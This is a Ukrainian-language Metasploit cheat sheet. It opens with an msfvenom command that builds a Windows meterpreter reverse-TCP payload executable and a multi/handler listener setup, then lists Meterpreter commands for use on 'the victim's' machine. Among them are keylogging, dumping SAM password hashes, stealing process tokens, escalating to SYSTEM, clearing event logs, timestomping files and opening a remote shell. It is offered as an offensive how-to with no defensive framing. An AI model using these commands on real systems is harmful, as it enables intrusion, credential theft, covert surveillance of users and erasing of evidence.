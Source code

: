 ## Створення payload:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -a x64 -o /home/kali/payload.exe

## Запуск:

msfconsole  
use exploit/multi/handler  
set PAYLOAD windows/x64/meterpreter/reverse_tcp  
set LHOST 192.168.0.111  
set LPORT 8888  
run  

## Основні команди Meterpreter:

**?** — меню допомоги  
**background** — переносить поточний сеанс в фоновий режим.  
**bgkill** — завершує фоновий скрипт meterpreter.  
**bglist** — відображає список всіх запущених фонових скриптів.  
**bgrun** — запускає скрипт як фоновий потік.  
**channel**  — відображає активні канали.  
**close** — закриває канал.  
**exit** — завершує севнс роботи з meterpreter.  
**help** — меню довідки.  
**interact** — взаємодіє з каналом.  
**irb** — перейти в режим сценарію Ruby.  
**migrate** — переносить активний процес на указаний PID.  
**quit** — завершує сеанс meterpreter.  
**read** — читає дані з каналу.  
**run** — виконує створений після нього скрипт meterpreter.  
**use** — завантажує розширення meterpreter.  
**write** — записує дані в канал.  

## Команди файлової системи

**cat** — читання і виведення вмісту файлу.  
**cd** — перейти в папку.  
**del** — видалити файл.  
**download** — завантажити файл з системи на свій ПК.  
**edit** — редагувати файл за допомогою vim.  
**getlwd** — показати локальний каталог.  
**getwd** — показати робочий каталог.  
**lcd** — змінити локальний каталог.  
**lpwd** — відобразити шлях локальної директорії.  
**ls** — список файлів в поточному каталозі.  
**mkdir** — створити каталог.  
**pwd** — відобразити шлях кореневого каталогу до до поточного робочого каталогу.  
**rm** — видалити файл.  
**rmdir** — видалити каталог в жертви.  
**upload** — завантажити файл зі своєї системи на на поточну машину.  

## Мережеві команди Meterpreter:

**clearav** — очищуэ журнал подый на комп'ютері жертви.  
**execute** — виконує команду.  
**getpid** — отримує ідентифікатор поточного процесу (PID).  
**getprivs** — отримує максимально можливі привілегії.  
**getuid** — отримати користувача від якого запущений сервер.  
**kill** — завершити процес, позначений PID.  
**ps** — список запущених процесів.  
**reboot** — перезавантажує комп'ютер жертви.  
**reg** — взаємодіяти з реєстром жертви.  
**rev2self** — викликає RevertToSelf () на машині жертви.  
**shell** — відкриває командний рядок на машині жертви.  
**shutdown** — виключає комп'ютер жертви.  
**steal_token** — намгається викрасти токен вказаного (PID) процесу.  
**sysinfo** — отримує детальну інформацію про комп'ютер жертви, таку ​як ОС і ім'я комп'ютера.  

## Команди користувацького інтерфейсу:  
**enumdesktops** — список всіх доступних робочих столів.  
**getdesktop** —отримати поточний робочий стіл meterpreter.  
**idletime** — перевіряє, скільки часу система жертви була в простої.  
**keyscan_dump** — вивантажує змість програмного забезпечення келогеру.  
**keyscan_start** — запускає програмний кейлогер, коли він звязаний з процесом, таким як Word чи браузер.  
**keyscan_stop** — зупиняє програмний кейлогер.  
**screenshot** — робить знімок екрану робочого столу meterpreter.  
**set_desktop** — змінює робочий стіл meterpreter.  
**uictl** — дозволяє керувати деякими компонентами користувацького інтерфейсу.  

## Команди підвищення привілеїв:  

**getsystem** — використовує 15 встроєних методів для отримання привілеїв системного адміністратора.  

## Команди дампу пароля:  

**hashdump** — захватє хеши з файлу паролів (SAM).  

## Команди Timestomp:  

**timestomp** — керує зміною, доступом і створеням атрибутів файлу.  


